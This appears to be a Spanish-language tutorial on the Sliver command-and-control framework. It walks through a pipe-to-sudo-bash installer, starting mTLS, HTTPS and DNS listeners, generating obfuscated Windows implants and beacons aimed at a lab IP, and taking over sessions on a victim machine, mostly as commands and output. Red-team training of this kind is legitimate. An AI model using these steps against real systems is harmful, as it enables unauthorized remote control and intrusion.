

# Instalación:

```bash
$ apt update
$ apt install mingw-w64
$ curl https://sliver.sh/install|sudo bash
```
Una vez instalado se inicializa la herramienta. 

```bash
$ sliver
```
# Comandos básicos:

## Ayuda

El comando para mostrar la ayuda es naturalmente help. 

```bash
sliver > help

Commands:
=========
  clear       clear the screen
  exit        exit the shell
  help        use 'help [command]' for command help
  monitor     Monitor threat intel platforms for Sliver implants
  wg-config   Generate a new WireGuard client config
  wg-portfwd  List ports forwarded by the WireGuard tun interface
  wg-socks    List socks servers listening on the WireGuard tun interface


Generic:
========
  aliases           List current aliases
  armory            Automatically download and install extensions/aliases
  background        Background an active session
  beacons           Manage beacons
  canaries          List previously generated canaries
  dns               Start a DNS listener
  env               List environment variables
  generate          Generate an implant binary
  hosts             Manage the database of hosts
  http              Start an HTTP listener
  https             Start an HTTPS listener
  implants          List implant builds
  jobs              Job control
  licenses          Open source licenses
  loot              Manage the server's loot store
  mtls              Start an mTLS listener
  prelude-operator  Manage connection to Prelude's Operator
  profiles          List existing profiles
  reaction          Manage automatic reactions to events
  regenerate        Regenerate an implant
  sessions          Session management
  settings          Manage client settings
  stage-listener    Start a stager listener
  tasks             Beacon task management
  update            Check for updates
  use               Switch the active session or beacon
  version           Display version information
  websites          Host static content (used with HTTP C2)
  wg                Start a WireGuard listener


Multiplayer:
============
  operators  Manage operators

```
Para conocer el detalle de un comando en particular se debe usar `help comando` como se ve a continuación:

```bash
sliver > help http

Start an HTTP listener

Usage:
======
  http [flags]

Flags:
======
  -D, --disable-otp                 disable otp authentication
  -d, --domain            string    limit responses to specific domain
  -h, --help                        display help
  -L, --lhost             string    interface to bind server to
  -J, --long-poll-jitter  string    server-side long poll jitter (default: 2s)
  -T, --long-poll-timeout string    server-side long poll timeout (default: 1s)
  -l, --lport             int       tcp listen port (default: 80)
  -p, --persistent                  make persistent across restarts
  -t, --timeout           int       command timeout in seconds (default: 60)
  -w, --website           string    website name (see websites cmd)

```

La estructura de funcionamiento de sliver es igual a esta:



Con este esquema de red se podrá explicar a continuación cada componente. 

## Listeners

1. El servidor de comando & control es gestionado por los operadores, que son los del cuadro amarillo. Esta gestión se la realiza a través de mutual TLS (mTLS), que es un método basado en el concepto de zero trust en que las dos partes (servidor y cliente) hacen una verificación de la llave privada. Para iniciar el listener de este servicio se utiliza el comando mtls. 

```bash
sliver > help mtls

Start an mTLS listener

Usage:
======
  mtls [flags]

Flags:
======
  -h, --help                 display help
  -L, --lhost      string    interface to bind server to
  -l, --lport      int       tcp listen port (default: 8888)
  -p, --persistent           make persistent across restarts
  -t, --timeout    int       command timeout in seconds (default: 60)
```
Entonces con el comando mtls inicia el listener de gestión que por defecto está en el puerto 8888. 

```bash
sliver > mtls

[*] Starting mTLS listener ...
sliver >
[*] Successfully started job #4

```

Una vez inicializado, si se ejecuta el comando netstat para ver los puerto abierto se tendrá este resultado. 

```bash
$ netstat -natu |grep 8888
tcp6       0      0 :::8888                 :::*                    LISTEN
```

2. Ahora es necesario inicializar los listener a donde se conectarán los implantes. Para esto se utlizarán los siguientes comandos. 

HTTP Listener

```bash
sliver > help http

Start an HTTP listener

Usage:
======
  http [flags]

Flags:
======
  -D, --disable-otp                 disable otp authentication
  -d, --domain            string    limit responses to specific domain
  -h, --help                        display help
  -L, --lhost             string    interface to bind server to
  -J, --long-poll-jitter  string    server-side long poll jitter (default: 2s)
  -T, --long-poll-timeout string    server-side long poll timeout (default: 1s)
  -l, --lport             int       tcp listen port (default: 80)
  -p, --persistent                  make persistent across restarts
  -t, --timeout           int       command timeout in seconds (default: 60)
  -w, --website           string    website name (see websites cmd)
```
HTTPS Listener

```bash
sliver > help https

Start an HTTPS listener

Usage:
======
  https [flags]

Flags:
======
  -c, --cert              string    PEM encoded certificate file
  -D, --disable-otp                 disable otp authentication
  -d, --domain            string    limit responses to specific domain
  -h, --help                        display help
  -k, --key               string    PEM encoded private key file
  -e, --lets-encrypt                attempt to provision a let's encrypt certificate
  -L, --lhost             string    interface to bind server to
  -J, --long-poll-jitter  string    server-side long poll jitter (default: 2s)
  -T, --long-poll-timeout string    server-side long poll timeout (default: 1s)
  -l, --lport             int       tcp listen port (default: 443)
  -p, --persistent                  make persistent across restarts
  -t, --timeout           int       command timeout in seconds (default: 60)
  -w, --website           string    website name (see websites cmd)
```
DNS Listener

```bash
sliver > help dns

Start a DNS listener

Usage:
======
  dns [flags]

Flags:
======
  -D, --disable-otp           disable otp authentication
  -d, --domains     string    parent domain(s) to use for DNS c2
  -h, --help                  display help
  -L, --lhost       string    interface to bind server to
  -l, --lport       int       udp listen port (default: 53)
  -c, --no-canaries           disable dns canary detection
  -p, --persistent            make persistent across restarts
  -t, --timeout     int       command timeout in seconds (default: 60)
```

Entonces depende de que protocolo se desea usar para iniciar el listener correspondiente. 

4. Para el caso de esta explicación se usará el de HTTPS

```bash
sliver > https

[*] Starting HTTPS :443 listener ...

[*] Successfully started job #5
```

Una vez que se ejecuta ese comando el puerto 443 se abre en el servidor de Comando & Control. 

```bash
netstat -natu |grep 443
tcp6       0      0 :::443                  :::*                    LISTEN
```

## Implantes

6. Para terminar el esquema, es necesario que las máquinas víctimas se conecten al listener creado en el paso anterior, por lo que se deben generar los implantes que deberán ser ejecutados en la máquina que se va a comprometer. El comando que se usa es el que se muestra a continuación. 

```bash
sliver > help generate

Command: generate <options>
About: Generate a new sliver binary and saves the output to the cwd or a path specified with --save.
```
Para generar el implante para windows se utilizó el comando a continuación. 


```bash
sliver > generate -e -f exe -b 192.168.14.130 -o windows

[*] Generating new windows/amd64 implant binary
[*] Symbol obfuscation is enabled
[*] Build completed in 00:00:40
[*] Implant saved to /home/kali/POISED_ASTROLOGER.exe
```
También es posible generar un implente que use para su conexión mTLS. 

```bash
sliver > generate -e -f exe -m 192.168.14.130 -o windows

[*] Generating new windows/amd64 implant binary
[*] Symbol obfuscation is enabled
[*] Build completed in 00:02:50
[*] Implant saved to /home/kali/ILL_WATERBED.exe
```

7. Es posible conocer los implantes que se han generado. 

```bash
sliver > implants

 Name                Implant Type   OS/Arch             Format   Command & Control                Debug
=================== ============== =============== ============ ================================ =======
 ILL_WATERBED        session        windows/amd64   EXECUTABLE   [1] mtls://192.168.14.130:8888   false
 POISED_ASTROLOGER   session        windows/amd64   EXECUTABLE   [1] https://192.168.14.130       false
```
## Sesiones

Para la prueba se debe trasladar el implante a una máquina windows y ejecutarlo para verificar si es posible la conexión. Una vez que esto se realiza, inmediatamente se recepta la conexión hacia sliver. 

```bash
[*] Session 06ec1002 POISED_ASTROLOGER - 192.168.14.129:50487 (DESKTOP-B9JJBCA) - windows/amd64 - Wed, 22 Jun 2022 16:54:57 EDT
```

Para listar la sesiones activas se puede usar el siguiente comando. 

```bash
sliver > sessions

 ID         Transport   Remote Address         Hostname          Username     Operating System   Health
========== =========== ====================== ================= ============ ================== =========
 06ec1002   http(s)     192.168.14.129:50487   DESKTOP-B9JJBCA   User        windows/amd64      [ALIVE]
```
Para interactuar con una sesión abierta se usa el siguiente comando. 

```bash
sliver > sessions -i 06ec1002

[*] Active session POISED_ASTROLOGER (06ec1002)
```

Otra forma de generar el implante es como beacon. 

```bash
sliver > generate beacon -e -f exe -b 192.168.14.130 -o windows

[*] Generating new windows/amd64 beacon implant binary (1m0s)
[*] Symbol obfuscation is enabled
[*] Build completed in 00:00:28
[*] Implant saved to /home/kali/CERTAIN_PRISON.exe

[*] Beacon 4020c53e CERTAIN_PRISON - 192.168.14.129:57426 (DESKTOP-B9JJBCA) - windows/amd64 - Wed, 22 Jun 2022 22:13:39 EDT
```

La diferencia entre session y beacon es que con el primero se establece una conexión persistente, con el segundo las conexiones se hacen con intervalos de tiempo lo que lo vuelve menos detectable. 

Para interactuar con el beacon se lo realiza con el siguiente comando. 

```bash
sliver > beacons

 ID         Name             Transport   Username     Operating System   Last Check-In   Next Check-In
========== ================ =========== ============ ================== =============== ===============
 4020c53e   CERTAIN_PRISON   http(s)     User        windows/amd64      42s ago         25s

sliver > use 4020c53e

[*] Active beacon CERTAIN_PRISON (4020c53e-9dc0-43ca-b808-4aa663c74903
```

# Referencias:

mTLS: https://www.cloudflare.com/learning/access-management/what-is-mutual-tls/ 

